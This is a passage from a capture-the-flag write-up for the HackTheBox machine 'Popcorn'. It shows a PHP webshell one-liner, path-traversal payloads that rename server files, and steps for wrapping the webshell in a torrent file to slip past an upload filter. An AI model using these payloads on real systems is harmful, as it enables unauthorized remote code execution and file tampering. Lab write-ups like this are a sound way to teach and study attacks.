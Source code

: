 

		<?php echo system($_GET["c"]); exit; ?>@popcorn.htb's password:
		```
	3. Attempt to move it to `/var/www/`, failed
		```
		filename=../../../../../../../../var/log/auth.log&newfilename=../../../../../../../../var/www/auth.php
		```
		![]({{ page.img_path }}Pasted%20image%2020220917190258.png)


## TCP/80 (HTTP) - Upload webshell.torrent on Torrent Host  
1. Register an account for `torrenthost`
2. After some testing,
	1. `torrenthost` is able to tell if a file that already exists in their database is being uploaded by analyzing the contents of the uploaded file (I think). Thus, changing the filename does not bypass it.
		![]({{ page.img_path }}Pasted%20image%2020220917191150.png)
	2. Changing the content of the torrent file even by a single character causes the file to be recognised as not a torrent file.  So trying to insert a webshell into the contents of a torrent file w/ `burp` will not work.
		![]({{ page.img_path }}Pasted%20image%2020220917191622.png)
3. Create our own webshell torrent file to upload
	1. Create `webshell.torrent`
		```
		┌──(root💀kali)-[~/htb/popcorn/10.10.10.6/loot]
		└─# cat webshell.php 
		<?php system($_GET['c']); ?>
		
		┌──(root💀kali)-[~/htb/popcorn/10.10.10.6/loot]
		└─# transmission-create webshell.php -o webshell.torrent
		WARNING: no trackers specified
		Creating torrent "webshell.torrent" .... done!
		```
	2. Add a webshell into the `Optional Name` field
	3. Upload it, success!
		![]({{ page.img_path }}Pasted%20image%2020220917192427.png)
4. Next, we have to find out where is `webshell.torrent` stored.
5. Simply rename `popcorn.htb/torrent/index.php` to `popcorn.htb/torrent/index`, so that we are able to view the directory listing of `mirai.htb/torrent`, this will allow us to browse the entire `/torrent` directory to find out where `webshell.torrent` is stored.
	```
	# Payload
	filename=../../../../../../../../var/www/torrent/index.php&newfilename=../../../../../../../../var/www/torrent/index
	```
	![]({{ page.img_path }}Pasted%20image%2020220917193115.png)
	![]({{ page.img_path }}Pasted%20image%2020220917194112.png)
	-  `torrents/` -  `webshell.torrent` could be residing it in
6. Do what we did earlier, rename `popcorn.htb/torrent/torrents/index.php` to view the directory listing of `popcorn.htb/torrent/torrents/`
	![]({{ page.img_path }}Pasted%20image%2020220917194304.png)
7. Found our `webshell.torrent`
	![]({{ page.img_path }}Pasted%20image%2020220917194405.png)
8. Move it to `/var/www/`
	```